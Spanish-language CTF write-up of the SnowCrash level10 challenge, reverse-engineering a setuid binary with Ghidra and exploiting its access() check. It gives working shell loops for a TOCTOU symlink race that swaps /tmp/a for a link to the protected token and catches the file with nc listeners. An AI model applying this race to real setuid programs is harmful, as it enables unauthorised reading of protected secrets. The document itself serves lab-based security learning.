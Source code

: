 - Dos archivos con estos permisos:
-rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10*
-rw-------  1 flag10  flag10     26 Mar  5  2016 token
- ejecuto el ./level10
level10@SnowCrash:~$ ./level10
./level10 file host
        sends file to host if you have access to it
- Creo un archivo en tmp y ejecuto sobre este
echo "HOLA" > /tmp/a
./level10 /tmp/a $(hostname -I)
./level10 file host
        sends file to host if you have access to it
- Parece que ./level10 envía el contenido de una archivo a una ip
- Descargamos en local el archivo level10
- Descompilamos con Ghidra
- En el main encontramos:
38 printf("Connecting to %s:6969 .. ",__cp)
- El puerto que espera la conexion es el 6969
- Usamos tmux en la maquina snow-crash

- console1:
level10@SnowCrash:~$ echo "HOLA" > /tmp/a

- console2:
level10@SnowCrash:~$ nc -l 6969

- console1:
level10@SnowCrash:~$ ./level10 /tmp/a $(hostname -I)

- console2 output:
.*( )*.
HOLA

- Bien, sabemos lo que hace
- Volvemos a Ghidra
- Vemos:
36  iVar2 = access((char *)in_stack_00000008[1],4);
37  if (iVar2 == 0) 
    { ... }
89  else {
90    iVar2 = printf("You don\'t have access to %s\n",pcVar6);
91  }
- Solo envía el archivo si tenemos permisos de archivo
- Pera hay un posible vector de ataque TOCTOU(Time-of-check to time-to-use)
https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use
https://lucabarile.github.io/Blog/toctou/index.html

    

- console1:
level10@SnowCrash:~$ ./level10 /tmp/a $(hostname -I)

- console2:
level10@SnowCrash:~$ nc -l 6969

- condole1:
level10@SnowCrash:~$ while true; do ./level10 /tmp/a $(hostname -I); done

- console2:
level10@SnowCrash:~$ while true; do echo "" > /tmp/a; rm -f /tmp/a; ln -s ~/token /tmp/a; rm -f /tmp/a; done

- console3:
level10@SnowCrash:~$ while true; do nc -l 6969 | grep -v "\( \)"; done

- tenemos la pass :)


